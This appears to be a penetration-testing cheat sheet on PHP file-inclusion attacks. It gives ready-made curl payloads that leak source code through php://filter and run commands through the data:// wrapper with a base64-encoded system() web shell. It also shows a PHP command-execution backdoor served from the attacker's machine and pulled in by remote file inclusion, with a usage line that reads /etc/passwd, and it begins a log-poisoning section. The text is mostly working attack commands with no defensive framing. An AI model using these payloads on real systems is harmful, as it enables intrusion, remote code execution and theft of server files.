 ### PHP wrappers

#### Source Code Disclosure

**php://filter**
```
curl http://SERVER_IP:PORT/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```
#### Code execution

**data://** wrapper
```
curl "http://SERVER_IP:PORT/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
```

**data://** wrapper with base64-encoded data
```
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==

curl "http://SERVER_IP:PORT/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```

### Remote File Inclusion (RFI)

```
cat simple-backdoor.php
...
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd
...
```

```
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
curl "http://SERVER_IP:PORT/index.php?page=http://<LOCAL-IP>/simple-backdoor.php&cmd=ls"
```

### Log Poisoning

Both `Apache` and `Nginx` maintain various log files, such as `access.log` and `error.log`. `Apache`logs are located in `/var/log/apache2/` on Linux and in `C:\xampp\apache\logs\` on Windows, while `Nginx` logs are located in `/var/log/nginx/` on Linux and in `C:\nginx\log\` on Windows.
